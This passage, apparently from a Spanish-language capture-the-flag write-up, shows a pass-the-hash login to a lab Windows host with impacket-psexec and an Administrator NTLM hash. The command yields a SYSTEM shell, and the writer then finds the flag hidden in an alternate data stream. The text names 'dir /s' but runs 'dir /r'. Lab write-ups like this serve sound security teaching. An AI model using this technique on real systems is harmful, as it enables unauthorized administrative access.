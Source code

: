 ### Psexec

Ahora con la herramienta `impacket-psexec` nos podremos lanzar una consola interactiva usando el hash:

```bash wrap=false
❯ impacket-psexec WORKGROUP/Administrator@10.10.10.63 -hashes :e0fb1fb85756c24235ff238cbe81fe00    
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file BXDNxEJM.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service lONp on 10.10.10.63.....
[*] Starting service lONp.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,652,123,136 bytes free
```

Vemos que la flag de primeras está oculta, se me ocurre esté usando **ADS** (*Alternative Data Stream*), para comprobarlo usaremos `dir /s` para ver precisamente esto:

```bash wrap=false
C:\Users\Administrator\Desktop> dir /r
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,652,061,696 bytes free
```
